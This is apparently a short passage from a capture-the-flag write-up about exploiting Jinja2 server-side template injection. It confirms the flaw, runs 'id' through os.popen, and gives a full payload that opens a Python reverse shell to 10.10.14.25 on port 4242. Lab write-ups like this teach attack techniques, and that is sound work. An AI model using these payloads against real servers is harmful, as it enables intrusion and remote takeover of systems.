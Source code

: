 First try changing the Name to `{{config.items()}}`

![ssti_confirmed.png](ssti_confirmed.png)

Let's try some RCE `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can use this payload for a reverseshell:

```js
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.25\",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```
which we found on [this blog](https://jayaye15.medium.com/jinja2-server-side-template-injection-ssti-9e209a6bbdf6).
